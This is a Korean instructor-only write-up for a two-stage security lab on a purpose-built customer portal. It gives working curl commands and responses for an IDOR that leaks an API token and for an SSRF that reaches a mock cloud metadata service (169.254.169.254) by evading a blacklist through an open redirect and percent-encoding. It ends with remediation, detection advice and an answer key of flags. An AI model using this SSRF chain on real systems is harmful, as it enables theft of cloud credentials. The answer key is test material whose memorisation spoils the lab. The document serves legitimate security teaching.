

# ES Lab2 — ES Customer Portal Write-up (Official)

> Instructor 전용 정답 문서. 학생 배포판에는 자격증명·flag·익스플로잇 상세를 포함하지 않는다.

## 0. 문서 범위

이 문서는 `lab2`(Medium, 2 스테이지)의 공식 풀이다. 대상은 이 랩 전용으로 구축된 컨테이너(`es-portal`, `es-imds-mock`)이며, 실제 프로덕션 시스템이 아니다. 본문의 모든 명령·응답은 랩 구축 및 검증 과정에서 실제로 실행해 확인한 결과다.

## 1. 시나리오

> ES 고객 포털에 IDOR 의심 사례가 접수됐고, 포털 내부에는 URL을 서버가 대신 요청해주는 "리포트 임포터" 기능도 있다는 게 확인됐다. 두 가지를 연결해서 어디까지 도달할 수 있는지 점검하라.

## 2. 실습 환경

| 항목 | 값 |
|---|---|
| 대상 | `$TARGET:80` |
| 서비스 | `es-portal` (Flask, 커스텀 앱) |
| 내부 전용 서비스 | `es-imds-mock` — `internal-net-2`(`169.254.0.0/16`)에서만 접근 가능, 고정 IP `169.254.169.254` |
| 네트워크 | `lab2-net`(외부 노출) + `internal-net-2`(내부 전용), lab1과 완전 분리 |

## 3. 공격 흐름



**한 줄 공격 체인**: 계정 생성 → 내 문서 id 인코딩 규칙 파악 → IDOR로 타 사용자 문서 열람 → 리포트 임포터 토큰 확보 → SSRF 블랙리스트 확인 → 오픈 리다이렉트 + 퍼센트 인코딩으로 필터 우회 → 내부 IMDS 도달 → flag.

## 4. Stage 1 — IDOR

### 4.1 계정 생성 및 내 문서 id 확인

**검증 명령**:

```bash
curl -s -c cookies.txt -X POST http://$TARGET/register -d "username=student1&password=pass123!"
curl -s -b cookies.txt -X POST http://$TARGET/documents -d "title=test&content=hello"
curl -s -b cookies.txt http://$TARGET/documents | grep -o 'id: <code>[^<]*'
```

**핵심 결과**:

```
id: <code>Mg==
```

`Mg==`를 base64 디코딩하면 `2`. 문서 id가 그냥 정수를 base64로 감싼 것뿐임을 확인했다.

### 4.2 IDOR — 타 사용자 문서 조회

**관찰 및 가설**: 내 계정의 첫 문서가 id=2라면, 서비스 초기 seed 데이터가 id=1로 존재할 가능성이 높다(`1`의 base64는 `MQ==`).

**검증 명령**:

```bash
curl -s -b cookies.txt http://$TARGET/api/documents/MQ==
```

**핵심 결과**:

```json
{
  "id": "MQ==",
  "owner_id": 1,
  "title": "인수인계 - 리포트 임포터 접근",
  "content": "ES 리포트 임포터 - 인수인계 메모\n\n- 리포트 임포터(/api/reports/import)는 X-Report-Token 헤더가 있어야 동작합니다.\n- 현재 토큰: es-rep-7f3a9c21\n- 점검(보안팀) 확인용: esfg{SXMgdGhpcyB0aGUgZW5kPyBLZWVwIHBpdm90aW5nIHRocm91Z2ggdGhlIHJlcG9ydCBpbXBvcnRlci4=}\n- 위 토큰이 유출되면 즉시 회전(rotate)할 것.\n"
}
```

**성공 판정**: 로그인한 계정은 `student1`(id≠1)인데도 `owner_id: 1`인 문서 내용을 그대로 반환받았다. 소유자 불일치 상태에서 데이터가 반환된 것을 근거로 IDOR을 판정했다(단순 200 응답이 아니라 실제 타 사용자 데이터 노출로 판정).

**취약점 원인**: `/api/documents/<id>` 핸들러가 로그인 여부만 확인하고 `document.owner_id == current_user.id` 검증을 하지 않음(CWE-639, Authorization Bypass Through User-Controlled Key).

## 5. Stage 2 — SSRF (블랙리스트 우회)

### 5.1 직접 접근 시도 — 차단 확인

```bash
curl -s -H "X-Report-Token: es-rep-7f3a9c21" -X POST http://$TARGET/api/reports/import \
  -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

```json
{"error": "blocked: internal address not allowed"}
```

서버는 `url` 문자열에 `169.254.169.254`가 그대로 포함되어 있으면 차단한다(단순 substring 블랙리스트).

### 5.2 우회 — 오픈 리다이렉트 + 퍼센트 인코딩

**관찰**: 포털에 `/api/reports/_redir?to=<url>` 엔드포인트가 별도 인증 없이 존재하며, `to` 파라미터로 받은 값으로 302 리다이렉트를 반환한다. `/api/reports/import`의 HTTP 클라이언트는 기본적으로 리다이렉트를 따라간다.

**가설**: `to` 파라미터 안의 목적지 URL에서 점(`.`)을 `%2E`로 인코딩하면, `/api/reports/import`가 검사하는 원본 `url` 문자열에는 `169.254.169.254`라는 연속된 문자열이 나타나지 않아 블랙리스트를 통과하고, 이후 `_redir` 엔드포인트가 쿼리 파라미터를 정상적으로 퍼센트 디코딩해 실제 목적지로 리다이렉트할 것이다.

**검증 명령**:

```bash
TOKEN="es-rep-7f3a9c21"
INNER="http://169.254.169.254/latest/meta-data/iam/security-credentials/es-portal-role"
ENCODED_INNER=$(python -c "
import urllib.parse, sys
s = urllib.parse.quote(sys.argv[1], safe='')
s = s.replace('.', '%2E')
print(s)" "$INNER")
PAYLOAD="http://$TARGET/api/reports/_redir?to=$ENCODED_INNER"

curl -s -H "X-Report-Token: $TOKEN" -X POST http://$TARGET/api/reports/import \
  --data-urlencode "url=$PAYLOAD"
```

실제 생성된 payload:

```
http://223.130.161.199/api/reports/_redir?to=http%3A%2F%2F169%2E254%2E169%2E254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fes-portal-role
```

### 5.3 핵심 결과

```json
{
  "status": 200,
  "body": "{\"AccessKeyId\":\"ASIAFAKEESPORTAL01\",\"Code\":\"Success\",\"Expiration\":\"2026-09-08T00:00:00Z\",\"LastUpdated\":\"2026-09-07T00:00:00Z\",\"Note\":\"esfg{V2VsbCBkb25lISBFUyBQb3J0YWwgTGFiMiBjbGVhci4=}\",\"SecretAccessKey\":\"FaKeSecretKeyESLab2Portal0000000000000000\",\"Token\":\"FAKE.SESSION.TOKEN.ES-LAB2\",\"Type\":\"AWS-HMAC\"}"
}
```

### 5.4 성공 판정

우회 전(5.1)에는 동일한 목적지에 대해 명시적 차단 응답(`blocked: internal address not allowed`)을 받았고, 우회 후(5.3)에는 `169.254.169.254`의 실제 IMDS mock 응답(HTTP 200 + 자격증명 JSON)을 받았다. 두 응답을 대조해 필터가 실제로 우회되었음을 판정했다(단순 200 응답이 아니라 목적지가 바뀐 것을 근거로 판정).

### 5.5 취약점 원인과 공격 조건

- **SSRF (CWE-918)**: `/api/reports/import`가 사용자 지정 URL을 서버에서 그대로 요청하며, 목적지 검증이 문자열 블랙리스트 하나뿐이다.
- **필터 우회 (CWE-20, Improper Input Validation)**: 블랙리스트가 최종 목적지가 아니라 최초 입력 문자열만 검사하고, 리다이렉트를 따라간 이후의 실제 목적지는 재검증하지 않는다.
- **오픈 리다이렉트(CWE-601)**: `/api/reports/_redir`가 별도 인증·목적지 검증 없이 임의 URL로 리다이렉트를 허용해, SSRF 필터 우회의 체이닝 지점이 되었다.
- 공격 조건: (1) Stage1에서 확보한 `X-Report-Token`, (2) 서버 HTTP 클라이언트가 리다이렉트를 자동으로 따라가는 기본 설정(`allow_redirects=True`).

## 6. 취약점 요약

| # | 분류 | 이름 | 위치 | 영향 |
|---|---|---|---|---|
| 1 | 자체 구현 결함(CWE-639) | 문서 API 소유자 검증 누락(IDOR) | `/api/documents/<id>` | 타 사용자 데이터 열람, 내부 API 토큰 유출 |
| 2 | 자체 구현 결함(CWE-918) | SSRF | `/api/reports/import` | 내부 전용 네트워크(IMDS) 도달 |
| 3 | 자체 구현 결함(CWE-601, CWE-20) | 오픈 리다이렉트를 이용한 SSRF 필터 우회 | `/api/reports/_redir` + 블랙리스트 검증 로직 | SSRF 방어 무력화 |

## 7. 탐지 및 대응

- **근본 원인 1(IDOR)**: 모든 리소스 조회에서 `resource.owner_id == session.user_id` 서버측 검증을 강제. 예측 가능한 순번 ID 대신 UUID 등 추측 불가능한 식별자 사용을 병행 권고.
- **근본 원인 2(SSRF)**: 목적지 URL을 문자열 블랙리스트가 아니라 허용 목록(allow-list) 기반으로 검증하고, DNS 해석 후 실제 접속 IP까지 재검증(특히 링크로컬/사설 대역 차단)해야 한다. 리다이렉트는 기본적으로 따라가지 않거나(`allow_redirects=False`), 따라간 뒤에도 동일한 검증을 반복 적용해야 한다.
- **근본 원인 3(오픈 리다이렉트)**: 리다이렉트 대상을 화이트리스트로 제한하거나 내부 전용 유틸리티 엔드포인트를 인증 뒤에 둔다.
- **탐지 가능한 흔적**: 애플리케이션 로그의 `/api/documents/<id>` 요청 중 `owner_id`가 요청자와 다른 케이스, `/api/reports/import`로 전달된 URL에 퍼센트 인코딩된 링크로컬 대역 패턴, `169.254.0.0/16`으로 나가는 아웃바운드 트래픽(egress 방화벽/네트워크 모니터링으로 탐지 가능).

## 8. 핵심 학습 포인트

1. ID가 base64로 "감싸져" 있는 것은 암호화가 아니다 — 디코딩 한 번으로 실제 규칙(순번 정수)이 드러난다.
2. IDOR로 얻은 정보가 곧바로 flag가 아니라 다음 단계의 인증 수단(API 토큰)일 수 있다는 점을 항상 염두에 둬야 한다.
3. SSRF 방어에서 "목적지 문자열 블랙리스트"는 우회하기 쉬운 방식이다 — 인코딩, 리다이렉트, 대체 표기 등 여러 우회 경로가 있다.
4. 애플리케이션 내부의 사소해 보이는 기능(오픈 리다이렉트, 범용 프록시 유틸리티)이 다른 취약점(SSRF)의 우회 경로로 체이닝될 수 있다.
5. 서버측 HTTP 클라이언트의 기본 동작(리다이렉트 자동 추적)이 보안 검증을 무력화시킬 수 있다 — 검증은 최종 목적지 기준으로 반복 적용해야 한다.

## 부록 — 정답 (Instructor 전용)

| 항목 | 값 |
|---|---|
| Stage1에서 확보하는 토큰 | `es-rep-7f3a9c21` |
| Stage1 flag(중간) | `esfg{SXMgdGhpcyB0aGUgZW5kPyBLZWVwIHBpdm90aW5nIHRocm91Z2ggdGhlIHJlcG9ydCBpbXBvcnRlci4=}` |
| Stage1 flag 디코딩 | `Is this the end? Keep pivoting through the report importer.` |
| Stage2 최종 flag | `esfg{V2VsbCBkb25lISBFUyBQb3J0YWwgTGFiMiBjbGVhci4=}` |
| Stage2 flag 디코딩 | `Well done! ES Portal Lab2 clear.` |
